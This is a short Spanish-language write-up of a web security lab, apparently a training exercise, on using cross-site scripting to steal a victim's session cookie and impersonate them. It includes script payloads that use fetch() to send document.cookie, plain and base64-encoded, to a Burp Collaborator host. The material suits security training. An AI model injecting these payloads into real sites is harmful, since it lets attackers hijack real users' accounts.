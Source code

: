 Aprovechamos la vulnerabilidad para insertar un fragmento de código que, al ejecutarse en el navegador de la víctima, recopila su cookie de sesión y la envía en segundo plano a un servidor externo controlado a través de Burp Collaborator, una herramienta diseñada para capturar interacciones fuera de banda.

Una vez interceptada la cookie, la utilizamos para suplantar la identidad del usuario afectado, inyectándola en nuestras propias peticiones mediante un proxy o el módulo Repeater de Burp Suite. Esto nos da acceso a áreas privadas como si fuéramos la víctima.

Este laboratorio demuestra cómo un XSS puede ir más allá de una simple alerta visual y usarse para comprometer directamente cuentas de usuario, lo que lo convierte en uno de los vectores más críticos en seguridad web.

------

Podemos hacer el uso de Fetch para realizar peticiones en Javascript

```javascript
<script>
    fetch('https://burp-collaborator.com/testing');
</script>
```

Con esto podemos ver si nos llega una peticion al Burp Collaborator

Ahora para enviar la cookie de sesion del usuario, hacemos lo siguiente

```javascript
<script>
    fetch('https://burp-collaborator.com/?cookie= '+document.cookie);
</script>
```

O si queremos ver el contenido en base64, hacemos lo siguiente:

```javascript
<script>
    fetch('https://burp-collaborator.com/?cookie= '+btoa(document.cookie));
</script>
```
